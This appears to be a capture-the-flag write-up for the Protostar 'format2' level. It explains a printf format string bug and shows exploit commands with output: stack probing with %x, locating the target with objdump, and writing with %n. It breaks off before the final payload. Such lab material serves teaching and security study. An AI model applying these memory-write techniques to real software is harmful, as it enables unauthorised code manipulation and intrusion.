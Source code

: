 ### Vulnerability

Once again, the program misuses `printf()`, making it vulnerable to a **Format String Attack**:

``` c
printf(buffer);
```

Instead, it should be written safely as:

```c
printf("%s", buffer)
```

Since the program doesn't use a proper format string, we can control how `printf()` works and use it to change the **target** variable. Our goal is to set **target** to 64 to beat this level.

### Exploit

First, we need to find where our input appears in the stack. To do this, we print a recognizable pattern (AAAA) followed by multiple format specifiers (%x) to inspect stack values:

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "AAAA" + ".%x" * 5' | ./format2
AAAA.200.b7fd8420.bffff614.41414141.2e78252e
```

Looking at the output, we can see our input AAAA appears in the 4th stack slot (41414141 is the hex representation of AAAA).

Now that we know the exact stack position of our input, we can place the address of **target** there and use ***Direct Parameter Access (DPA)*** to reference it.

Next, let's find the address of **target** by using `objdump`:

``` shell
user@protostar:/opt/protostar/bin$ objdump -t ./format2 | grep target
080496e4 g     O .bss   00000004              target
```

But before that, we have to make sure that we are referencing to the correct memory location using **DPA**:

```shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xe4\x96\x04\x08" + "%4$p"' | ./format2
0x80496e4
target is 0 :(
```

Nice~ We are at the correct address. At the moment, we are printing 4 bytes (because of the address we placed), so **target is set to 4**. We can verify this by using `%n`, which writes the number of printed bytes into **target**:

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xe4\x96\x04\x08" + "%4$n"' | ./format2

target is 4 :(
```

Our assumption was correct! But how can we print additional 60 byte of data?
